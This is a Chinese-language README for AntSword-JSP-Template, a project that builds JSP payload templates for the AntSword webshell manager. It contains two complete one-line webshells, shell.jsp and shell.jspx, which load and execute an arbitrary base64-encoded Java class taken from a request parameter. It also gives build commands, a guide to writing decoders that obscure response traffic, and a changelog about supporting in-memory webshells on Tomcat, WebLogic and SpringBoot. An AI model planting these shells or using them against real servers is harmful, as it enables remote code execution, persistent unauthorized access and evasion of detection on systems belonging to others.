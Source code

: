 # AntSword-JSP-Template  v1.4
中国蚁剑JSP一句话Payload

详细介绍：https://yzddmr6.tk/posts/antsword-diy-3/

编译环境：jdk6 + tomcat7

适用范围：jdk6及以上

## 编译

### 手动编译

* Windows

```
javac.exe -cp "./lib/servlet-api.jar;./lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

* Linux/Mac

```bash
javac -cp "./lib/servlet-api.jar:./lib/jsp-api.jar" Test.java

# Linux
base64 -w 0 Test.class > Test.txt

# Mac
base64 -b 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/jsp/template/`下即可

## Shell
shell.jsp

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
      Class base64;
      byte[] value = null;
      try {
        base64=Class.forName("sun.misc.BASE64Decoder");
        Object decoder = base64.newInstance();
        value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
      } catch (Exception e) {
        try {
          base64=Class.forName("java.util.Base64");
          Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
          value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
        } catch (Exception ee) {}
      }
      return value;
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

shell.jspx
```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
    <jsp:declaration>
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            Class base64;
            byte[] value = null;
            try {
                base64=Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
            } catch (Exception e) {
                try {
                    base64=Class.forName("java.util.Base64");
                    Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                    value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
                } catch (Exception ee) {}
            }
            return value;
        }
    </jsp:declaration>
    <jsp:scriptlet>
        String cls = request.getParameter("ant");
        if (cls != null) {
            new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
        }
    </jsp:scriptlet>
</jsp:root>
```
其中`pageContext`可以替换为`request`，以实现对内存Webshell的兼容。

## 解码器

以 Reverse 解码器为例说明：

> 该解码器的功能是将返回包的数据反转

1. 编写 `AsoutputReverse.java` 内容如下:

```java
public class AsoutputReverse {
  String res;

  public AsoutputReverse(String str) {
    // 这里编写对 str 处理的逻辑, 最后将值传给 res
    res = new StringBuffer(str).reverse().toString();
  }

  // 请保持 toString 方法, 不要修改内容
  @Override
  public String toString() {
    return res;
  }
}
```

2. 编译，并获取 .class 文件 base64 后的内容

```
$ javac AsoutputReverse.java
$ base64 -w 0 AsoutputReverse.class
```

3. 打开 AntSword 进入编码设置，创建「解码器」，内容如下:

```
/**
 * JSP::reverse 解码器
 */

 'use strict';

 module.exports = {
   asoutput: () => {
     // 这里是你的 .class 文件的 base64 后的内容
     return `yv66vgAAADMAHgoACAATBwAUCgACABUKAAIAFgoAAgAXCQAHABgHA...`;
   },
   decode_buff: (data) => {
     // 这里是解返回包的逻辑
     return Buffer.from(data).reverse();
   }
 }
```


## 更新日志

### v 1.5-dev

1. 支持解码器(返回包加密)

### v 1.4

1. 兼容JDK6
2. 兼容weblogic内存webshell
3. 优化报错信息
4. 解决windows下中文乱码的问题（win选择GBK编码，linux选择UTF-8编码）
5. 实战中只能获取到response的情况几乎没有，所以为了减少payload体积不再支持response作为入口参数
6. 增加用于测试payload的Web项目
7. 修复 java -jar xxx.war 启动时当前目录获取失败的问题


### v 1.3

1. 兼容SpringBoot

### v 1.2

1. 修复下载文件的BUG
2. database添加Base64编码

### v 1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release
